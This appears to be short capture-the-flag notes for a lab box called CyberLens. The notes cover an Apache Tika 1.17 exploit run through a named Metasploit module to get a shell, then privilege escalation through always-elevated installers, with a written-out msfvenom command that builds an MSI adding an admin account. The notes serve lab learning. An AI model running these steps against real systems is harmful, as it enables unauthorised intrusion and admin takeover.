 #box
### Enumeration
- Apache Tika 1.17
	- https://www.exploit-db.com/exploits/47208
### Metasploit
- `exploit/windows/http/apache_tika_jp2_jscript`
- gain shell as CyberLens user
### PrivEsc
- winpeas > all installers are run as admin
- msfvenom user with admin
	- `msfvenom -p windows/adduser USER=admin PASS='Password123!' -f msi -o notaprivesc.msi`
- execute installer binary
- login as `admin:Password123!`

